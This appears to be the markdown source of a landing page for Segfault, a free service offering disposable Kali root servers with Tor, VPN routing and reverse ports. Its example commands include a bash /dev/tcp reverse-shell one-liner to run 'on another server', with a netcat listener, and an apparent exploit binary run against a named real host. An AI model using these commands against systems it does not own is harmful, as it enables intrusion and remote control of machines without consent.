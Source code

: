 ```yaml
---
layout: default
title: Segfault
description: Disposable Root Servers.
---
```


<!-- <div style="width:80%; margin:auto">
</div> -->

{% include nav-segfault.html margin-top="-1rem" margin-bottom="2rem" %}

<div align="center"><h1><em>Making the world suck less one TCP packet at a time...</em></h1></div>

## Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```
{:refdef: style="text-align: center;"}
NEW: Start a [Remote Desktop](https://shell.segfault.net) inside your Browser.
{: refdef}

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

## What it does

__Segfault__ offers free unlimited Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection.

* Dedicated `Root Server` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to `.onion` addresses.
* Log in via `.onion`, `.gsocket` or direct `ssh` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured `.onion` web server. Just put your files in /onion.
* Encrypted storage in `/sec` and `/home` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

## Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**

```shell
apt install nmap && nmap -thc
```

**Work the Internet**

```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**

```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt

# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Start Firefox or a Remote Desktop X11/GUI:**

```shell
startxvnc
```

**Work the DarkNet:**

```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**

```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**

```shell
ssh -D 127.0.0.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```
<!-- Windows does not like -D 1080 and needs 127.0.0.1:1080 (and does not like 127.1:1080 either) -->

**Connect to your own public PORT:**

```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.

# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

## How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](free) in place. You may want to [upgrade your server](upgrade) and go unrestricted.

## Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [WindowsOnFly](https://app.apponfly.com/trial)
- [OnWorks](https://www.onworks.net/os-distributions/debian-based/free-kali-linux-online)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)
- [Tilde.club](http://tilde.club/)
- [Project SF](https://projectsegfau.lt/)
- [and many others...](https://free-for.dev/)

## Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

## Contact

{% include contact-details.md %}

